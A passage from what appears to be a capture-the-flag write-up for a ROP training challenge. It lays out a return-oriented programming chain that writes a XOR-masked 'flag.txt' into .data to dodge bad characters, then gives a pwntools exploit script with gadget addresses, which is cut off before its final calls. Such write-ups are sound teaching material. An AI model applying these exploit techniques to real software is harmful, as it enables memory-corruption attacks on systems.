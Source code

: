 We are set up to write the `flag.txt` in our `.data` section. Below is the rough sketch of ROP chain which we are going to use to execute the attack.

```
ROP Chain

Address of `pop r12; pop r13; pop r14; pop r15; ret;` gadget.
`flag.txt` string
Address of .data section                                      (0x0000000000601028)
0x3                                                           (To XOR the character)
0x0000000000601028 + 2                                        (Address pointing to `b` in `flbd-t{t`)
Address of `mov qword ptr[r13], r12; ret` gadget
Address of `xor byte ptr [r15], r14b; ret;`
Address of `pop r15; ret;`
0x0000000000601028 + 3                                        (Address pointing to `d` in `flbd-t{t`)
Address of `xor byte ptr [r15], r14b; ret;`
Address of `pop r15; ret;`
0x0000000000601028 + 4                                        (Address pointing to `-` in `flbd-t{t`)
Address of `xor byte ptr [r15], r14b; ret;`
Address of `pop r15; ret;`
0x0000000000601028 + 6                                        (Address pointing to `{` in `flbd-t{t`)
Address of `xor byte ptr [r15], r14b; ret;`
Address of `pop rdi; ret;`
Address of `print_file@plt`
```


# **Executing the Attack**

We are going to use `pwntools` to create out exploit script. Below is the exploit script.

> **NOTE** : I added 7 to `base data_address` because while I was `xoring` back the characters one of the characters address contained `bad character` so to remove that anomaly i just shifted the `.data` address. 

```python
#!/usr/bin/env python

from pwn import *

elf = ELF('./badchars')
p = elf.process()

data_address = 0x601028 + 7

payload = 'F' * 40
payload += p64(0x40069c) 			# pop r12; pop r13; pop r14; pop r15; ret;
payload += 'flbd-t{t'
payload += p64(data_address)		# .data section
payload += p64(0x03)
payload += p64(data_address + 2)
payload += p64(0x400634)        	# mov qword ptr [r13], r12; ret;
payload += p64(0x400628)        	# xor byte ptr [r15], r14b; ret;
payload += p64(0x4006a2)        	# pop r15; ret; 
payload += p64(data_address + 3)
payload += p64(0x400628)        	# xor byte ptr [r15], r14b; ret;
payload += p64(0x4006a2)        	# pop r15; ret; 
payload += p64(data_address + 4)
payload += p64(0x400628)       		# xor byte ptr [r15], r14b; ret;
payload += p64(0x4006a2)        	# pop r15; ret; 
payload += p64(data_address + 6)
```